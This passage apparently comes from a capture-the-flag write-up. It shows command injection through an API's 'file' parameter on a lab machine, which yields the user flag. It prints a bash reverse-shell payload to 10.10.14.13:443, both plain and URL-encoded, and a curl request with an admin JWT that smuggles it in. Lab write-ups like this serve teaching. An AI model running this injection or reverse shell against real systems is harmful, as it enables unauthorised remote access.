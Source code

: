 Voila! We did it! Let’s try to obtain a reverse shell with the payload: `;bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"`

url encoded: `%3Bbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.13%2F443%200%3E%261%22`

```jsx
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MmUxNmZlNGNlNmQ2NTA0NWEyZmVkZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFsbUBhbG0uY29tIiwiaWF0IjoxNjU4OTQxNjc4fQ.U4MB0eP5yc3eXWzseM_7dP2jf0JZP7RovnoMx9jv4mM' http://10.10.11.120/api/logs?file=%3Bbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.13%2F443%200%3E%261%22
```

![Untitled](images/Untitled%2027.png)

Yeah!

![Untitled](images/Untitled%2028.png)

And that’s how we obtain the user flag 🙂

Let’s go for the root flag.
